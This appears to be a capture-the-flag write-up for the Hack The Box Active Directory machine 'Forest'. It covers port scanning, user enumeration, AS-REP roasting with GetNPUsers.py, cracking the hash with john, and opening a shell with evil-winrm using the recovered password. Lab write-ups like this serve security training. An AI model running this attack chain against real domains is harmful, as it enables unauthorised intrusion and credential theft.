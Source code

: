 # Forest  

## Nmap  

Nmap scan of ports up to 15000  

```
88/kerberos-sec
135/msrpc
139/netbios-ssn
389/ldap
445/microsoft-ds
464/kpasswd5?
593/ncacn_http
636/tcpwrapped
3268/ldap
3269/tcpwrapped
5985/http
9389/mc-nmf
```  

## rpc  

Using rpcdump.py  

```
Protocol: [MS-CMPO]: MSDTC Connection Manager: 
Protocol: [MS-DNSP]: Domain Name Service (DNS) Server Management 
Protocol: [MS-DRSR]: Directory Replication Service (DRS) Remote Protocol 
Protocol: [MS-EVEN6]: EventLog Remoting Protocol 
Protocol: [MS-FASP]: Firewall and Advanced Security Protocol 
Protocol: [MS-FRS2]: Distributed File System Replication Protocol 
Protocol: [MS-LSAT]: Local Security Authority (Translation Methods) Remote 
Protocol: [MS-NRPC]: Netlogon Remote Protocol 
Protocol: [MS-NSPI]: Name Service Provider Interface (NSPI) Protocol 
Protocol: [MS-RAA]: Remote Authorization API Protocol 
Protocol: [MS-RSP]: Remote Shutdown Protocol 
Protocol: [MS-SAMR]: Security Account Manager (SAM) Remote Protocol 
Protocol: [MS-SCMR]: Service Control Manager Remote Protocol 
Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol
```  

```
Provider: BFE.DLL 
Provider: dfsrmig.exe 
Provider: dhcpcsvc6.dll 
Provider: dhcpcsvc.dll 
Provider: dns.exe 
Provider: efssvc.dll 
Provider: FwRemoteSvr.dll 
Provider: gpsvc.dll 
Provider: IKEEXT.DLL 
Provider: iphlpsvc.dll 
Provider: lsasrv.dll 
Provider: MPSSVC.dll 
Provider: msdtcprx.dll 
Provider: netlogon.dll 
Provider: nrpsrv.dll 
Provider: nsisvc.dll 
Provider: ntdsai.dll 
Provider: samsrv.dll 
Provider: schedsvc.dll 
Provider: services.exe 
Provider: srvsvc.dll 
Provider: sysntfy.dll 
Provider: taskcomp.dll 
Provider: wevtsvc.dll 
Provider: wininit.exe 
Provider: winlogon.exe
```  

## LDAP  

## SMB  

Using the nmap scan  

`nmap -vvv --script=smb-enum-* 10.129.230.72`  

The following users were discovered.  

```
 Administrator
 Andy Hislip
 HealthMailbox-EXCH01-001
 HealthMailbox-EXCH01-002
 HealthMailbox-EXCH01-003
 HealthMailbox-EXCH01-004
 HealthMailbox-EXCH01-005
 HealthMailbox-EXCH01-006
 HealthMailbox-EXCH01-007
 HealthMailbox-EXCH01-008
 HealthMailbox-EXCH01-009
 HealthMailbox-EXCH01-010
 HealthMailbox-EXCH01-Mailbox-Database-1118319013
 Lucinda Berger
 Mark Brandt
 Santi Rodriguez
```  

Which can be assumed the following are normal users.  

```
Administrator
Andy Hislip
Lucinda Berger
Mark Brandt
Santi Rodriguez
```  

Using enum4linux, the following usernames were found.  

```
svc-alfresco
Sebastien Caron
```  

## kerberos  

Using impacket GetNPUsers.py  

`python3 GetNPUsers.py -dc-ip 10.129.230.72 htb.local/ -usersfile ~/smb-users.txt -format john -outputfile ~/hashes`  

The following is found ready for cracking.  

`$krb5asrep$svc-alfresco@HTB.LOCAL:fd510d0e0ee5448d6b186022e245b150$9bf236ccae554208d7f7b1721829602f47d5f30d6da892baee911907eec2783a180edb8f9d4eeff058539f31
69d9e024c91db7c56490aa0547eb2460d91caee26e90ca6f2a1c1182b05b2c5d92d14b201c7c29b48b5b18c0eb5628e8a30265a5a686c3d519170de2cf1d2c57d9876173236b4bb9299237ed0fd7
4adaba8bf27c6123fc842768fd655b40466a84c8d0dbc93b6cb53bcf24a8b8f6f5553bf79a1deee5dc1a4a02a96dfb46dcff759c379d8cc235ce8e8e17687cb1f1812031e2efc86dc0b0c8b09512
cdcb472da071b3010b51544c496cfd7837d3acc236b679b284af8182599b`  

## Password cracking  

Using john  

`john --wordlist=/usr/share/wordlists/rockyou.txt hashes`  

Following password was found for the username svc-alfresco.  

`s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)`  

## Shell  

Gained RCE with the following shell.  

`evil-winrm -i 10.129.230.72 --user svc-alfresco -p s3rvice`  

